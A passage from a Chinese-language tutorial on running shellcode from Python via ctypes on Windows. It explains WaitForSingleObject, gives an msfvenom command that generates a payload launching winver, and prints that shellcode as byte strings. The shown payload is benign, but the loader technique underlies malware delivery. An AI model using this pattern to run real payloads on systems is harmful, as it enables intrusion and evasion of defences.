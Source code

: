 lpStartAddress 仍为之前申请内存地址的引用.

## WaitForSingleObject

监听 handle 状态

声明

```
DWORD WaitForSingleObject(
HANDLE hHandle,
DWORD dwMilliseconds
);
1
2
hHandle 对象句柄
dwMilliseconds 定时时间间隔 指定为非零值表示一直等待直到 Handle 触发.
```

hHandle 为之前创建线程函数的引用.

## Other

```
from_buffer_copy 解码 shellcode
c_int C++ 的 int 类型
c_char C++ 的 char 类型
pointer C++ 的 指针
```

# Code

首先引入 ctypes 库.

```
import ctypes
```

**生成 shellcode**

这里执行 win 自带的命令 winver.

`msfvenom -p windows/exec CMD=winver -f c`

返回结果.

`unsigned char shellcode[]='xxxx'`

**整理 shellcode**

```
shellcode = b""
shellcode = shellcode  + b"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
shellcode = shellcode  + b"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
shellcode = shellcode  + b"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
shellcode = shellcode  + b"\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85"
shellcode = shellcode  + b"\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3"
shellcode = shellcode  + b"\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d"
shellcode = shellcode  + b"\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58"
shellcode = shellcode  + b"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b"
shellcode = shellcode  + b"\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"
shellcode = shellcode  + b"\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x6a\x01\x8d\x85\xb9\x00"
shellcode = shellcode  + b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56"
shellcode = shellcode  + b"\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75"
shellcode = shellcode  + b"\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5\x77\x69\x6e\x76"
shellcode = shellcode  + b"\x65\x72\x00"
```
